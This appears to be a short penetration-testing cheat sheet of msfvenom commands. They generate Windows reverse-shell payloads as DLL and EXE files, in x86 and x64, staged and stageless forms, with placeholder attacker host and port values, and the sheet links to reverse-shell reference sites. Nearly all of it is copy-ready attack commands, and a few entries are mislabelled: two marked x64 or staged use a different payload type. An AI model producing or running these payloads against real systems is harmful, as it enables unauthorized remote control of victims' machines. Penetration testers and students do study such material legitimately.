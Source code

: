 ### :open_file_folder: Reference resources

https://www.revshells.com/

https://book.hacktricks.xyz/shells/shells/msfvenom

### :open_file_folder: Windows

#### dll

x86(try first)

```
msfvenom -p windows/shell_reverse_tcp -f dll -o xxx.dll LHOST=<IP> LPORT=<PORT>
```

x64

```
msfvenom -p windows/x64/shell_reverse_tcp -f dll -o xxx.dll LHOST=<IP> LPORT=<PORT>
```

#### exe

Staged Payloads for Windows

x86

```
msfvenom -p windows/shell/reverse_tcp LHOST=<IP> LPORT=<PORT> -f exe > shell-x86.exe
```

x64

```
msfvenom -p windows/x64/shell_reverse_tcp LHOST=<IP> LPORT=<PORT> -f exe > shell-x64.exe
```

Stageless Payloads for Windows(try first)

x86

```
msfvenom -p windows/shell_reverse_tcp LHOST=<IP> LPORT=<PORT> -f exe > shell-x86.exe
```

x64

```
msfvenom -p windows/shell_reverse_tcp LHOST=<IP> LPORT=<PORT> -f exe > shell-x64.exe
```

